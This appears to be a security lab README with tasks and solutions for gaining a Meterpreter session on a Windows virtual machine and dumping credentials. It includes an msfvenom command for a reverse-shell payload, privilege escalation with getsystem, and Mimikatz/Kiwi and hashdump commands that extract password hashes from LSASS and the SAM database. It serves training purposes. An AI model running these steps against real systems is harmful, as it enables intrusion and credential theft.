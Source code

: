 # Use Meterpreter To Dump Password Hashes Stored In The SAM Database And LSASS
In cybersecurity, understanding how attackers extract credentials is key to effective defense. Meterpreter, a post-exploitation tool, enables attackers to access compromised Windows systems and extract sensitive data like password hashes. Through Meterpreter, tools like Mimikatz can dump password hashes from LSASS memory and the SAM database

## References
- [Meterpreter Basics](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)
- [Mimikatz](https://www.offsec.com/metasploit-unleashed/mimikatz/)

## Tasks
- Launch Metasploit and use an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine
- Once you have a Meterpreter session, use the "getsystem" command to escalate privileges to SYSTEM level
- Use the "getuid" command to display the current user's privileges
- Use Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory
- Use the "hashdump" command in Meterpreter to dump password hashes from the SAM database


## Solutions
1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
4. Download the reverse shell in the Windows 10 VM and run it as an administrator
5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
7. To load Mimikatz in Meterpreter session, use `load kiwi`
8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
9. To dump password hashes from the SAM database, use `hashdump`

Screenshot of how Kiwi is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)

Screenshot of how hashdump is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/5ded7cc0-7b98-4ad2-8e50-a35ff5841958)

